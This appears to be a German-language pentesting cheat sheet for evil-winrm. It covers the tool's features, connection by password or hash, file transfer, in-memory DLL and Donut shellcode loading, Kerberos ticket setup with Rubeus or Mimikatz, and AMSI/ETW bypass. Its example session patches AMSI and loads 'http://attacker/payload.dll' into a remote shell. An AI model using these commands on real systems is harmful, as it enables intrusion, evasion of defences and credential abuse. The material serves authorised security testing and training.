```yaml
---
description: https://github.com/Hackplayers/evil-winrm
---
```


# evil-winrm

Evil-WinRM ist ein Post-Exploitation-Tool zur Remote-Interaktion mit Windows-Systemen über das WinRM-Protokoll. Es ermöglicht In-Memory-Ausführung, AV-Umgehung, Authentifizierungsoptionen und Dateitransfer.

***

**Features**

* Kompatibel mit Linux- und Windows-Clients
* Ausführung von PowerShell-Skripten, DLLs, C#-Assemblies im Speicher
* Unterstützung für x64-Payloads mit Donut-Technik
* Dynamischer AMSI-Bypass
* Pass-the-Hash und Kerberos-Authentifizierung
* SSL und Zertifikatsunterstützung
* Upload/Download mit Fortschrittsanzeige
* Auflisten von Diensten ohne Adminrechte
* Autovervollständigung lokal und remote
* Farbige Ausgabe (deaktivierbar), optionales Logging
* Docker-Support mit vorgefertigten Images
* Ctrl+C-Schutz gegen unbeabsichtigten Abbruch
* Anpassbarer User-Agent
* ETW (Event Tracing for Windows) Bypass

***

**Grundlegende Nutzung**

```bash
evil-winrm -i <IP> -u <USER> -p <PASS>
evil-winrm -i <IP> -u <USER> -H <HASH>
evil-winrm -i <FQDN> -u <USER> -r <REALM>
```

Weitere Optionen:

```bash
-S           SSL aktivieren  
-c / -k      Zertifikatspfad (Public/Private Key)  
-s           Pfad zu lokalen PowerShell-Skripten  
-e           Pfad zu C#-Executables  
-P           Port (Standard: 5985)  
-l           Logging aktivieren  
-a           Benutzerdefinierter User-Agent  
```

***

**Dateiübertragung**

```bash
upload local_file [remote_file]
download remote_file [local_file]
```

Hinweis: Nur absolute Pfade verwenden. Bei Docker müssen lokale Pfade unter `/data` gemountet sein.

***

**Interaktive Funktionen**

```powershell
menu             # Zeigt verfügbare Tools und Funktionen
services         # Listet Dienste, auch ohne Adminrechte
```

***

**PowerShell-Skripte laden**

```powershell
PowerView.ps1    # Skriptname eingeben (aus Pfad via -s geladen)
menu             # Geladene Funktionen anzeigen
```

***

**Erweiterte Module**

**Invoke-Binary**\
Führt .NET-Executables im Speicher aus:

```powershell
Invoke-Binary path\binary.exe 'arg1,arg2,arg3'
```

**Dll-Loader**\
Lädt DLLs über lokale Pfade, HTTP oder SMB:

```powershell
Dll-Loader -http -path http://<ip>/file.dll
Dll-Loader -local -path C:\Pfad\file.dll
Dll-Loader -smb -path \\<ip>\share\file.dll
```

**Donut-Loader**\
Lädt Donut-basierte Payloads in einen Prozess:

```powershell
Donut-Loader -process_id <PID> -donutfile path\payload.bin
```

Erstellung von Donut-Payloads (außerhalb Evil-WinRM):

```bash
pip3 install donut-shellcode
python3 donut-maker.py -i binary.exe
```

**Bypass-4MSI**\
Patcht AMSI zur AV-Umgehung:

```powershell
Bypass-4MSI
```

***

**Kerberos-Konfiguration**

1. Zeit synchronisieren mit DC:

```bash
rdate -n <dc_ip>
```

2. Ticket erstellen:

* Mit `ticketer.py` (Impacket)
* Mit `Rubeus` oder `Mimikatz` + `ticket_converter.py` (für ccache)

3. Ticket setzen:

```bash
export KRB5CCNAME=/pfad/ticket.ccache
cp ticket.ccache /tmp/krb5cc_0
```

4. `/etc/krb5.conf` konfigurieren:

```conf
CONTOSO.COM = {
    kdc = fooserver.contoso.com
}
```

5. Tickets verwalten:

```bash
klist       # Tickets anzeigen  
kdestroy    # Ticket löschen
```

***

**Beispiel-Nutzung**

```bash
evil-winrm -i 10.10.10.10 -u administrator -H <hash> -s ./ps_scripts -e ./cs_bins
```

Danach in der Evil-WinRM-Shell:

```powershell
Bypass-4MSI
Dll-Loader -http http://attacker/payload.dll
Invoke-Binary ./Rubeus.exe
```
